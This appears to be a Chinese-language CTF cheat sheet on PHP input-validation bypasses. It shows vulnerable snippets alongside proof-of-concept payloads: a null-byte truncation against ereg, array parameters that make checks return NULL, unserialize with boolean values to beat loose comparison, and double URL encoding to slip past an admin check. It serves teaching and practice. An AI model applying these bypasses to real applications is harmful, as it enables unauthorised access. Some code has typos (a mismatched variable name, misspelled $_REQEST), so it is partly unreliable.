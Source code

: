 # php match

## ereg

> int ereg() 返回整数类型

* example

'''php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
    
'''

* poc 1

'''
url: ...?password=1e9%00*-*
'''
此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

'''
url: ...?password[]=s
''' 

**传入数组**
ereg 返回** NULL** ，NULL !== FALSE is true
strpos 处理数组，也返回 ** NULL **
strlen 处理数组，同样返回 **NULL**

**比较**
null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

’‘’php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

'''php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

## urldecode

> string urldecode() 返回字符串类型 

urldecode 与 $_GET[] $_POST[] $_REQEST[] 联合使用
$_GET[] $_POST[] $_REQEST[] 返回的参数是**已经被解码了**的，在进行 urldecode 相当于 二次 urldecode

* poc

'''php
$username = $_GET['username'];  //url: ...?username=%2561dmin   %61 is a
if (urldecode($username) === "admin"){
    echo "you are admin";
}
'''